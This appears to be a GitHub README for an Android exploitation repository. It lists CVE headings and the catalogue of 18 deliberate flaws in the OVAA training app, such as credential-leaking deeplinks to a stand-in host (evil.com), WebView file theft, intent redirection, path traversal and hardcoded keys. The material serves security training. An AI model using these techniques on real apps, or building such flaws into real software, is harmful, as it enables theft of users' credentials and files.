 # androidpwn
# EvilParcel漏洞
Android Pwn De1taCTF BroadcastTest<br>

#CVE-2020-8913

# CVE-2017-13288

# CVE-2017-13315

# OVAA Proof Of Concept
https://github.com/oversecured/ovaa<br>
The detailed POC codes <br>

# List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on our blog.

1.Installation of an arbitrary login_url via deeplink oversecured://ovaa/login?url=http://evil.com/. Leads to the user's user name and password being leaked when they log in.<br>
2.Obtaining access to arbitrary content providers (not exported, but with the attribute android:grantUriPermissions="true") via deeplink oversecured://ovaa/grant_uri_permissions. The attacker's app needs to process oversecured.ovaa.action.GRANT_PERMISSIONS and pass intent to setResult(code, intent) with flags such as Intent.FLAG_GRANT_READ_URI_PERMISSION and the URI of the content provider.<br>
3.Vulnerable host validation when processing deeplink oversecured://ovaa/webview?url=....<br>
4.Opening arbitrary URLs via deeplink oversecured://ovaa/webview?url=http://evilexample.com. An attacker can use the vulnerable WebView setting WebSettings.setAllowFileAccessFromFileURLs(true) in the WebViewActivity.java file to steal arbitrary files by sending them XHR requests and obtaining their content.<br>
5.Access to arbitrary activities and acquiring access to arbitrary content providers in LoginActivity by supplying an arbitrary Intent object to redirect_intent.<br>
6.Theft of arbitrary files in MainActivity by intercepting an activity launch from Intent.ACTION_PICK and passing the URI to any file as data.<br>
7.Insecure broadcast to MainActivity containing credentials. The attacker can register a broadcast receiver with action oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA and obtain the user's data.<br>
8.Insecure activity launch in MainActivity with action oversecured.ovaa.action.WEBVIEW, containing the user's encrypted data in the query parameter token.
9.Deletion of arbitrary files via the insecure DeleteFilesSerializable deserialization object.<br>
10.Memory corruption via the MemoryCorruptionParcelable object.<br>
11.Memory corruption via the MemoryCorruptionSerializable object.<br>
12.Obtaining read/write access to arbitrary files in TheftOverwriteProvider via path-traversal in the value uri.getLastPathSegment().<br>
13.Obtaining access to app logs via InsecureLoggerService. Leak of credentials in LoginActivity Log.d("ovaa", "Processing " + loginData).<br>
14.Use of the hardcoded AES key in WeakCrypto.<br>
15.Arbitrary Code Execution in OversecuredApplication by launching code from third-party apps with no security checks.<br>
16.Use of very wide file sharing declaration for oversecured.ovaa.fileprovider content provider in root entry.<br>
17.Hardcoded credentials to a dev environment endpoint in strings.xml in test_url entry.<br>
18.Arbitrary code execution via a DEX library located in a world-readable/writable directory.<br>
